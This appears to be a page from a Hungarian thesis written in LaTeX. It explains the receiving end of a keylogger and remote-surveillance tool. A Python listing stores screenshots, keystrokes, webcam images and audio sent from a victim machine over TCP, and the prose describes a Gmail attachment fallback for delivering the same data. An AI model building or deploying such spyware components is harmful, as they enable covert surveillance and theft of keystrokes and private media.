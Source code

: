 \documentclass[a4paper, 11pt]{article}
\begin{document}
A továbbiakban az adatok feldolgozásra kerülnek, ha a TCP kapcsolat még nem zárult be. Az adatok beíródnak egy-egy állományba. Ha az $infomation$ mezőben az ``Error'' szöveg érkezik, akkor sikertelen volt az adatküldés, és a program egy üzenetet ír ki a vezérlőablakra, hogy tudassa a sikertelen folyamatot. A $data$ változó tartalmazza a protokoll által található információt.
\begin{lstlisting}[language=Python]
if data[0] == "image":
	if data[2] == 'Error':
		logger.info("Error with taking screenshot!")
	else:
		with open(f'./screenshot_{data[1]}.png', 'wb') as handler:
			handler.write(data[2])
		logger.info('Done')
elif data[0] == "char":
	write_file(os.path.join(path, filename), data[1:])
	if gui_running:
		self.gui.insert_data(data[1:])
elif data[0] == "wcpic":
	if data[2] == 'Error':
		logger.info("Error with taking webcam picture!")
	else:
		with open(f'./webcam_{data[1]}.png', 'wb') as handler:
			handler.write(data[2])
		logger.info('Done')
elif data[0] == 'audio':
	if data[2] == 'Error':
		logger.info("Error with recording audio!")
	else:
		with open(f'./audio_{data[1]}.wav', 'wb') as handler:
			handler.write(data[2])
		logger.info('Done')
elif data[0] == 'close':
	self.connection.client.close()
	logger.info("Connection closed!\n")
	break
\end{lstlisting}

Ha a TCP kapcsolat felbomlik, akkor e-mail-en keresztül lesz továbbítva az adat csatolmányban. Ahoz, hogy írni és olvasni is tudjunk e-mail-t python kódból, a google fióknál be kell legyen kapcsolva a ``Less secure app access''. A gmail fióknál pedig a következőt kell engedélyezni: Settings $\rightarrow$ See all settings $\rightarrow$ Forwarding and POP/IMAP $\rightarrow$ IMAP access $\rightarrow$ Enable IMAP.

Előszőr csatlakozni kell a megadott gmail címhez. Ez után megnézzük, hogy jött-e olyan e-mail, amit még nem láttunk, ha igen, akkor ellenőrizzük, hogy a saját gmail címünkről jott-e. Ha minden feltétel teljesül, akkor megnyitjuk az e-mail-t és letöltjük a csatolmányokat. Itt két csatolmány érkezik: egy képernyőkép és egy log állomány, amelyben a lenyomott billentyűk vannak naplózva. Ezt a folyamatot ismételjük addig, amíg nincsen hiba. Hiba alatt a következőket lehet érteni: nem engedi a csatlakozást a gmail api szerver, nem tudja megnyitni az elküldött csatolmányokat.
\end{document}

